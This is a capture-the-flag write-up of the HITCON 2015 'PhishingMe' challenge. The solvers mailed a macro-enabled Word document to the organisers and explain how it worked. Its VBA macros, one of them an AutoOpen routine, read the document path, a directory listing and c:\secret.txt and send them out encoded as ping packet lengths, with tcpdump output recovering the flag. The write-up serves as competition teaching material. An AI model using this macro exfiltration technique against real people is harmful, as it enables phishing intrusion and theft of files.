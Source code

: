 Title: PhishingMe

Description:

>Sent me a .doc, I will open it if your subject is "HITCON 2015"! Find the flag under my file system. p.s. I've enabled Macro for you. ^_________________^ phishing.me.hitcon.2015@gmail.com.
>
>Hint


From the information, we know this challenge is all about macro. Requirement will be,

- MS Windows
- Ms Word with Macro
- Email title with HITCON 2015
- Email Address to phishing.me.hitcon.2015@gmail.com

Once all this condition is fulfilled. We received an confirmation email from HITCON
I've read your doc. Interesting
First guess was, ping to home 
Shell ("ping -n 1 my.ip.add.ress")
TCPDUMP from home with ICMP on. Bingo, we go packets We went and wrote few more connection script like email, web and DNS. Looks like we got no luck at all. So we concluded.

- NO Outgoing TCP Allowed (** ppp solved it with DNS)

Concluded only ICMP able to to go out from the box. So, we did another test. 

> Shell ("ping -n 1 -l 2 my.ip.add.ress")

And we received 

11:29:43.643405 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2249, length 10

This is clear that we can somehow use the length to pass some data. So, first thing is. We want to know where are we.
```
strString = (ActiveDocument.Path)
For i = 1 To Len(strString)
    strHex = Hex(Asc(Mid(strString, i, 1)))
    strDec = CLng("&h" & strHex)
    strDec = strDec - 8
    MsgBox (strDec)
    'Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
Next
```

Next From the ping with length, we convert back the Dec value back to ASCII, we got PATH Secondly, we go a "dir" 

```
Set objFSO = CreateObject("Scripting.FileSystemObject")
objStartFolder = (ActiveDocument.Path)

Set objFolder = objFSO.GetFolder(objStartFolder)
'MsgBox objFolder.Path
Set colFiles = objFolder.Files
For Each objFile In colFiles

    'MsgBox objFile.Name

    strString = objFile.Name

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        For iCount = 1 To 1000
        Next iCount
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next

    Shell ("ping -n 1 -l 34 my.ip.add.ress")
Next
```

Nothing seems to me interesting. So we change and code a little bit and do a dir on "C:\", we found secret.txt !!! Another peace of code to show what is in secret.txt 

```
Sub AutoOpen()

Dim MyString As String

'Open the text file
'(replace "MyTextFile.txt" with the name of your file)
Open "c:\secret.txt" For Input As #1

'loop through the file until the end of file marker
'is reached
Do While Not EOF(1)
    'read line of text, place it in the MyString variable
    Line Input #1, MyString
     'MsgBox (MyString)
    'you can then use whatever is in MyString for
    'your formatting purposes
Loop

'close the text file
Close #1

    strString = MyString
    'strString = "ABCD"

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        
        For iCount = 1 To 10000000
        Next iCount
        'MsgBox (strHex & " " & strDec)
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next


End Sub
```

From TCPDUMP we received 
```
11:29:41.058538 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2215, length 104 
11:29:41.058617 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2215, length 104 11:29:41.128465 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2216, length 105 
11:29:41.128542 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2216, length 105 
11:29:41.202369 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2217, length 116 
11:29:41.202441 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2217, length 116
--- More ICMP Traffic ---
11:29:44.321431 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2258, length 125
11:29:44.321527 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2258, length 125
```

By taking all the length, we got the string as 

> hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}

Done !!! 

Special thanks to k9 from CLGT
